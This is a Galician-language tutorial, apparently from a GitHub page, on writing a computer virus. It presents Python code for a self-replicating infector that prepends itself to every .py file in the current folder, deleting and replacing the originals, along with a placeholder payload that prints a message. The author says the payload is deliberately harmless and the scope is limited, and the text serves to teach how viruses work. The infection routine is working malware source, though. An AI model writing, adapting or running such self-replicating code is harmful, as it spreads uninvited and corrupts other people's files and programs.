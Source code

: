 Nota: ningún dos virus ensinados nesta publicación conterá unha función maliciosa con fin de evitar estragos. Tamén hai 
que destacar que en todas as funcións de infección presentadas só se contempla o directorio dende onde se executa o 
virus.

## Creando un virus
O virus que se presenta a continuación terá a funcionalidades de autoreplicarse e mostrar pola pantalla unha mensaxe 
cando se termina o proceso de infección. Outra característica é que o virus escríbese no principio de cada arquivo 
infectado, facendo que, se se executa un arquivo que conteña o virus, se execute o código malicioso antes ca o código 
lexítimo.

Sen máis preámbulos disponse a explicar que fan cada unha das partes do virus:

 - Función **infectar**: esta función busca posibles arquivos para infectar no cartafol onde se executa o virus. Unha 
   vez atopado un candidato, comproba se xa está infectado previamente. Se non o está, crearase un novo ficheiro que 
   conterá o virus e o código do candidato.
```python
def infectar(virus):
    ruta = "."
    for arquivo in os.listdir(ruta):
        if arquivo.endswith(".py"):
            script = open(arquivo, "r")
            texto_script = script.read()
            script.close()
            if not "# Virus:Inicio" in texto_script:
                infectado = open(arquivo + ".infectado", "w")
                infectado.write(virus + "\n")
                infectado.write(texto_script)
                infectado.close()
                os.remove(arquivo)
                os.rename(arquivo + ".infectado", arquivo)
```

- Función **payload**: esta función contería o código malicioso. Neste caso só imprime pola pantalla a mensaxe 
  “Fuches infectado”.
```python
def payload():
    print("Fuches infectado")
```

- Función **executa**: esta función chama as funcións de infectar e payload.
```python
def executa(virus):
    infectar(virus)
    payload()
```
